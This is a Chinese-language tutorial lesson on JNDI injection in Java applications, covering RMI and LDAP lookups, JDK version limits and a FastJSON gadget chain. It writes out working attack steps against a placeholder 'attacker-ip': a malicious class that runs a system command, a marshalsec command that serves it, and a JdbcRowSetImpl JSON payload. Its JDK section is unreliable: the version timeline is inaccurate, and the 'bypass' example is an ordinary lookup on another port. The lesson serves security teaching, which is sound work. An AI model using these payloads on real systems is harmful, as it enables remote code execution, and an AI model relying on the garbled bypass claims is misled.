








# 🚀 课程 P37：JavaEE应用与JNDI注入、RMI服务、LDAP服务、JDK绕过及调用链类


在本节课中，我们将要学习JavaEE应用中的JNDI注入、RMI服务、LDAP服务、JDK版本绕过以及相关的调用链类。我们将从基础概念入手，逐步深入到实际利用场景，帮助初学者理解这些复杂的安全概念。




## 📚 概述：什么是JNDI？




JNDI全称为Java Naming and Directory Interface，即Java命名和目录接口。它是一个内置的接口，用于实现对象和服务的调用。JNDI支持多种服务，包括RMI、LDAP、CORBA和DNS等。简单来说，JNDI允许Java应用程序通过统一的接口访问各种命名和目录服务。




在安全领域，JNDI注入是一种常见的安全攻击手段。攻击者可以利用JNDI接口，远程调用恶意的Java代码，从而实现命令执行等攻击。


## 🔍 JNDI注入的基本原理


JNDI注入的核心在于`javax.naming.InitialContext.lookup()`方法。该方法用于查找和调用远程或本地的对象和服务。如果攻击者能够控制`lookup()`方法的参数，就可以指向恶意的RMI或LDAP服务，从而触发远程代码执行。


以下是JNDI注入的基本代码示例：


```java
import javax.naming.InitialContext;
import javax.naming.NamingException;


public class JNDIDemo {
    public static void main(String[] args) throws NamingException {
        InitialContext ctx = new InitialContext();
        ctx.lookup("rmi://attacker-ip:1099/恶意对象");
    }
}
```


这段代码通过`InitialContext.lookup()`方法调用了一个RMI服务。如果RMI服务指向恶意的Java类，就会触发远程代码执行。





## 🛠️ RMI与LDAP服务





RMI（Remote Method Invocation）和LDAP（Lightweight Directory Access Protocol）是JNDI支持的两种主要服务。它们都可以用于远程调用Java对象，但在协议和用途上有所不同。


### RMI服务
RMI是Java的远程方法调用协议，默认端口为1099。它允许一个Java虚拟机上的对象调用另一个Java虚拟机上的对象。在JNDI注入中，RMI常用于远程加载和执行恶意的Java类。


### LDAP服务
LDAP是轻量级目录访问协议，默认端口为389。它主要用于访问和维护分布式目录信息服务。在JNDI注入中，LDAP也可以用于远程加载和执行Java类。


以下是使用RMI和LDAP服务的示例：


```java
// RMI示例
ctx.lookup("rmi://attacker-ip:1099/恶意对象");


// LDAP示例
ctx.lookup("ldap://attacker-ip:389/恶意对象");
```


## 🧪 实验：JNDI注入的实际利用


为了帮助大家更好地理解JNDI注入，我们将通过一个简单的实验来演示其利用过程。实验步骤如下：


1. **编译恶意Java类**：编写一个执行命令的Java类，并将其编译为class文件。
2. **启动恶意RMI/LDAP服务**：使用工具启动一个RMI或LDAP服务，指向恶意class文件。
3. **触发JNDI注入**：在目标应用中调用`lookup()`方法，指向恶意服务。


以下是实验的具体步骤：


### 步骤1：编译恶意Java类
编写一个简单的Java类，用于执行系统命令：


```java
public class MaliciousClass {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


使用`javac`命令编译该类：
```bash
javac MaliciousClass.java
```


### 步骤2：启动恶意RMI服务
使用工具（如`marshalsec`）启动一个RMI服务，指向恶意class文件：
```bash
java -cp marshalsec.jar marshalsec.jndi.RMIRefServer "http://attacker-ip:8000/#MaliciousClass" 1099
```


### 步骤3：触发JNDI注入
在目标应用中调用`lookup()`方法：
```java
InitialContext ctx = new InitialContext();
ctx.lookup("rmi://attacker-ip:1099/MaliciousClass");
```





执行上述代码后，目标系统会弹出计算器，证明JNDI注入成功。


## 🛡️ JDK版本绕过







随着JDK版本的更新，JNDI注入的利用受到了一定的限制。例如，高版本的JDK默认禁用了RMI和LDAP的远程类加载功能。以下是JDK版本对JNDI注入的影响：


- **JDK 6u141、7u131、8u121之前**：RMI和LDAP均可用于JNDI注入。
- **JDK 8u191之后**：RMI的远程类加载被禁用，但LDAP仍可绕过。
- **JDK 11.0.1之后**：LDAP的远程类加载也被禁用。


为了绕过这些限制，攻击者通常会使用一些技巧，例如利用本地类加载或结合其他漏洞。以下是一个绕过JDK限制的示例：


```java
// 使用LDAP绕过JDK限制
ctx.lookup("ldap://attacker-ip:1386/恶意对象");
```

## 🔗 调用链类


在实际的Java应用中，JNDI注入通常与其他漏洞结合使用，形成调用链。例如，FastJSON反序列化漏洞中，攻击者可以通过JNDI注入实现远程代码执行。


以下是FastJSON漏洞中JNDI注入的示例：


```json
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://attacker-ip:1389/恶意对象",
    "autoCommit": true
}
```


在这个示例中，`JdbcRowSetImpl`类会调用`lookup()`方法，从而触发JNDI注入。


## 📝 总结


本节课中我们一起学习了JNDI注入的基本原理、RMI与LDAP服务的使用、JDK版本绕过以及调用链类的实际应用。以下是本节课的核心知识点：


1. **JNDI是什么**：Java命名和目录接口，用于远程调用对象和服务。
2. **JNDI注入的原理**：通过`InitialContext.lookup()`方法调用恶意RMI或LDAP服务。
3. **RMI与LDAP服务**：分别用于远程方法调用和目录访问，均可用于JNDI注入。
4. **JDK版本绕过**：高版本JDK限制了RMI和LDAP的远程类加载，但可通过技巧绕过。
5. **调用链类**：JNDI注入常与其他漏洞结合，形成攻击链。


希望通过本节课的学习，大家能够对JNDI注入有一个初步的了解，并能够在实际应用中识别和防范这类安全风险。